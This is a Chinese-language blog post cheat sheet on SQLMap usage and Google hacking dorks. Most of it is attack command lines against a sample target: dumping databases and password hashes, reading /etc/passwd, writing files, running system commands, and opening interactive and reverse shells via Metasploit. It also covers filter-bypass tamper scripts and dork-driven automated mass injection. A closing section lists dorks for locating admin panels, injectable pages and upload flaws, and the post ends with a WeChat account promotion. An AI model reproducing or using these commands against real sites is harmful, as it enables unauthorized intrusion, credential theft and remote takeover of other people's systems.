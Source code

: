 ```yaml
---
layout: post
category: binghe-code-hack
title: SQLMap的用法+谷歌黑客语法
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: SQLMap的用法+谷歌黑客语法
lock: need
---
```


# SQLMap的用法+谷歌黑客语法

## SQLMap的用法记录

**基本步骤**

```
sqlmap.py -u "http://192.168.109.139/news?id=1" --current-user #获取当前用户名称
sqlmap.py -u "http://192.168.109.139/news?id=1" --current-db #获取当前数据库名称
sqlmap.py -u "http://192.168.109.139/news?id=1" --tables -D "db_name" #列表名
sqlmap.py -u "http://192.168.109.139/news?id=1" --columns -T "tablename" users-D "db_name" -v 0 #列字段
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0 #获取字段内容
******************信息获取****************** 
sqlmap.py -u "http://192.168.109.139/news?id=1" --smart --level 3 --users # smart 智能 level 执行测试等级
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbms "Mysql" --users # dbms 指定数据库类型
sqlmap.py -u "http://192.168.109.139/news?id=1" --users #列数据库用户
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs#列数据库
sqlmap.py -u "http://192.168.109.139/news?id=1" --passwords #数据库用户密码
sqlmap.py -u "http://192.168.109.139/news?id=1" --passwords-U root -v 0 #列出指定用户数据库密码
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20 #列出指定字段，列出 20 条
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump-all -v 0 #列出所有数据库所有表
sqlmap.py -u "http://192.168.109.139/news?id=1" --privileges #查看权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --privileges -U root #查看指定用户权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --is-dba -v 1 #是否是数据库管理员
sqlmap.py -u "http://192.168.109.139/news?id=1" --roles #枚举数据库用户角色
sqlmap.py -u "http://192.168.109.139/news?id=1" --udf-inject #导入用户自定义函数（获取系统权限！）
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump-all --exclude-sysdbs -v 0 #列出当前库所有表
sqlmap.py -u "http://192.168.109.139/news?id=1" --union-cols #union 查询表记录
sqlmap.py -u "http://192.168.109.139/news?id=1" --cookie "COOKIE_VALUE" #cookie 注入
sqlmap.py -u "http://192.168.109.139/news?id=1" -b #获取 banner 信息
sqlmap.py -u "http://192.168.109.139/news?id=1" --data "id=3" #post 注入
sqlmap.py -u "http://192.168.109.139/news?id=1" -v 1 -f #指纹判别数据库类型
sqlmap.py -u "http://192.168.109.139/news?id=1" --proxy"http://127.0.0.1:8118" #代理注入
sqlmap.py -u "http://192.168.109.139/news?id=1"--string"STRING_ON_TRUE_PAGE" #指定关键词
sqlmap.py -u "http://192.168.109.139/news?id=1" --sql-shell #执行指定 sql 命令
sqlmap.py -u "http://192.168.109.139/news?id=1" --file /etc/passwd  #必须为dbs权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --file-write 本地文件路径 file-dest 目标路径  #必须为dbs权限(可将本地的某个文件写入到目标路径下)
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-cmd=whoami #执行系统命令
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-shell #系统交互 shell
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-pwn #反弹 shell
sqlmap.py -u "http://192.168.109.139/news?id=1" --reg-read #读取 win 系统注册表
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs-o "sqlmap.log" #保存进度
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs -o "sqlmap.log" --resume #恢复已保存进度
sqlmap.py -u "http://192.168.109.139/news?id=1" --msf-path=/opt/metasploit3/msf2 --os-pwn 反弹 shell 需 metasploit 路径
sqlmap.py -u "http://192.168.109.139/news?id=1" --tamper "base64encode.py" 加载脚本(可利用绕过注入限制)
sqlmap.py -u "http://192.168.109.139/news?id=1" --batch --tamper "base64encode.py" 加载脚本(可利用绕过注入限制)
sqlmap -g "google 语法" --dump-all --batch #google 搜索注入点自动 跑出所有字段
sqlmap.py -u "http://192.168.109.139/news?id=1" --forms  #post提交方式注入
sqlmap.py -r 本地数据包路径 #post提交方式注入
```

## 攻击实例

```
sqlmap.py -u "http://192.168.109.139/news?id=1&Submit=Submit" --cookie="PHPSESSID=41aa833e6d0d28f489ff1ab5a7531406" --string="Surname" --dbms=mysql --users --password
```

谷歌黑客语法

- site：可以限制你搜索范围的域名.
- inurl：用于搜索网页上包含的URL，这个语法对寻找网页上的搜索，帮助之类的很有用.
- intext: 只搜索网页<body>部分中包含的文字(也就是忽略了标题、URL等的文字)
- intitle: 查包含关键词的页面，一般用于社工别人的webshell密码
- filetype：搜索文件的后缀或者扩展名
- intitle：限制搜索的网页标题.
- link: 可以得到一个所有包含了某个指定URL的页面列表.

- 查找后台地址：site:域名 inurl:login|admin|manage|member|admin_login|login_admin|system|login|user|main|cms
- 查找文本内容：site:域名 intext:管理|后台|登陆|用户名|密码|验证码|系统|帐号|admin|login|sys|managetem|password|username
- 查找可注入点：site:域名 inurl:aspx|jsp|php|asp
- 查找上传漏洞：site:域名 inurl:file|load|editor|Files
- 找eweb编辑器：site:域名 inurl:ewebeditor|editor|uploadfile|eweb|edit
- 存在的数据库：site:域名 filetype:mdb|asp|#
- 查看脚本类型：site:域名 filetype:asp/aspx/php/jsp
- 迂回策略入侵：inurl:cms/data/templates/images/index/


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
